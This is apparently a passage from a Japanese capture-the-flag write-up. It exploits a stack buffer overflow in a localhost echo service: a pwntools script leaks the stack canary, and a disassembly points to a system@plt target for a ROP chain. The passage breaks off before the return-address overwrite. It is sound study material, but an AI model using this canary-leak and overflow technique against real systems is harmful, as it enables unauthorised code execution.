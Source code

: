 接続後の主な処理は `0x08048a71` の関数にあった. 1の処理を追っていくと, 入力した文字列を入れるために確保した領域(0x28 byte)に `recv()` で `0x64` byte も読み込んでいるため stack buffer overflow が起こせる. しかも, 次の入力された文字列を返す処理では, `send()` で `strlen(buf)` 分の文字列を送信しているため, stack の情報をリークさせることが可能なのがわかる.

そこで, 次のような攻撃を行う.  
まず, stack canary をリークさせる. canary は `0x5082ab00` のような下位1 byte が `0x00` なランダムな値なので, 0x28 +1文字を書き込んで `strlen()` のチェックを回避し, 送られてくる文字列の0x29~0x2c文字目を処理することで得られる.

```python
#!/usr/bin/env python2

from pwn import *

r = remote('localhost', 8181)

def echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('1')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

buffer_size = 0x28

ret = echo('A' * (buffer_size + 1))
canary = u32(ret[buffer_size:buffer_size + 5]) & 0xffffff00
log.info('leaked canary: 0x%x' % canary)

r.close()
```

    $ ./exploit.py
    [+] Opening connection to localhost on port 8181: Done
    [*] leaked canary: 0x5082ab00
    [*] Closed connection to localhost port 8181

次に, リークさせた canary を使って bof のチェックを回避しつつ, リターンアドレスを書き換えて ROP につなげる.  
調べていくと `0x08048c3b` にこんな感じの関数(があった痕跡?)があるので, `system@plt()` を呼び出せば任意のシェルコマンドを実行できそうなのがわかる.

    [0x08048710]> pd 14 @ 0x08048c3b
                0x08048c3b      push ebp
                0x08048c3c      mov ebp, esp
                0x08048c3e      sub esp, 0x28
                0x08048c41      mov eax, dword gs:[0x14]
                0x08048c47      mov dword [ebp - 0xc], eax
                0x08048c4a      xor eax, eax
                0x08048c4c      mov dword [esp], str.echo__not_easy_to_see._
                0x08048c53      call sym.imp.system
                0x08048c58      mov eax, dword [ebp - 0xc]
                0x08048c5b      xor eax, dword gs:[0x14]
            ,=< 0x08048c62      je 0x8048c69
            |   0x08048c64      call sym.imp.__stack_chk_fail
            `-> 0x08048c69      leave
                0x08048c6a      ret


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.